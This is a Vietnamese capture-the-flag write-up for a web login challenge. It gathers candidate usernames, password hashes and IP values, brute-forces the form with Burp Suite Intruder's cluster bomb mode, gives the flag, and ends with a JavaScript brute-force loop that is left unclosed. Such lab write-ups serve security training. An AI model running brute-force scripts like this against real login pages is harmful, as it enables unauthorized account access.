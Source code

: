 
> Với chiếc Gatling gun mạnh mẽ trong tay, Mèo Yang Hồ có thể vượt qua bất kì cánh cửa bảo mật nào. Nhưng thật buồn cười là trong tay hắn lại không có một viên đạn nào.

> Nếu bạn muốn nghịch súng với Mèo thì hãy đi nhặt đạn ở trong Github của Cookie Hân Hoan nhé.



> http://chal9.web.letspentest.org/ 


> `hint`: Workshop đã dạy bạn cách dùng súng


![image](https://user-images.githubusercontent.com/68783065/140519417-e5a6b453-8528-4e9f-bf69-641e40746a2b.png)



* Lấy `username`, `password`, `IP Admin` tại `Github` của cookiehanhoan: https://github.com/cookiehanhoan/HoangTuEch

* Use `Burp Suite` và `Sent to intruder` để conffig và `Brute force` 3 trường cần nhập vào:

![image](https://user-images.githubusercontent.com/68783065/140520413-366bfb08-a5ce-4488-abe3-8d40b1a9ecfe.png)

* `Attack Type`: `Cluster bomb`


![image](https://user-images.githubusercontent.com/68783065/140520668-3c113f52-d10f-4e73-aab7-a1adc092e9f3.png)


* `Payload 1`:

![image](https://user-images.githubusercontent.com/68783065/140521125-22a9b247-6306-44e6-af9f-34f0d230e920.png)




* `Payload 2`:

![image](https://user-images.githubusercontent.com/68783065/140521479-d334d866-a1f8-4e43-861b-c7b88e205222.png)


* `Payload 3`:


![image](https://user-images.githubusercontent.com/68783065/140521644-a55e8589-987f-4c63-8356-6dcdc7b9f89b.png)





* `Start Attak` để bắn súng:

![image](https://user-images.githubusercontent.com/68783065/140522697-0398ea1f-1c46-40e2-a4f2-b69dc112f2cd.png)



* Lọc và chọn `Response` có độ dài lớn nhất:

* Flag is: `FLAG{e6c068faf9241fe9d1f2000516718377}`




Mình cũng thử code 
```javascript
var username = ["sysadmin",
    "tryheckme",
    "harryhahaha",
    "linkvoid",
    "shadowfriend",
    "admin",
    "tathebatrider",
    "hoangtueck",
    "www-data",
    "doanlmlua",
    "root"
]
var password = ["7fe6c472cf67cd7c8d489d7561efa16d",
    "43d78d8aa35c80fb2bca5f7c586c6acc",
    "5f4dcc3b5aa765d61d8327deb882cf99",
    "8c2bfcaf57eaa586430c980ca84f9077",
    "c32a1af34cdfbed5b1fd1192024148af",
    "8a3bfb1f801b7b16c4617bb6e3a3b139",
    "eb274c0fd025893e5120eb8a8a257727",
    "94e661130e9b3f6dd72a61056c92800a",
    "f3e136f08ee8cb32fb73f527d035be2f",
    "7b08bf846a62bdc7a1fe46c92cce0054"
]
var ip = ["1.1.0.1", "1.0.0.1", "0.1.1.1", "1.1.1.1", "1.0.1.1", "1.1.1.0", "0.1.0.0", "0.0.0.0", "1.1.0.0", "0.0.1.0", "1.0.1.0"]

for (let i = 0; i < ip.length; i++) {
    for (let j = 0; j < password.length; j++) {
        for (let k = 0; k < username.length; k++) {
            var oReq = new XMLHttpRequest();
            oReq.addEventListener("load", function() {
                if (this.responseText != "FLAG{Not_True}") {
                    console.log(this.responseText)
                }
            })
            oReq.open("POST", "http://chal9.web.letspentest.org/login");
            oReq.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
            oReq.send("username=" + username[k] + "&password=" + password[j] + "&ip=" + ip[i])
        }
    }
```





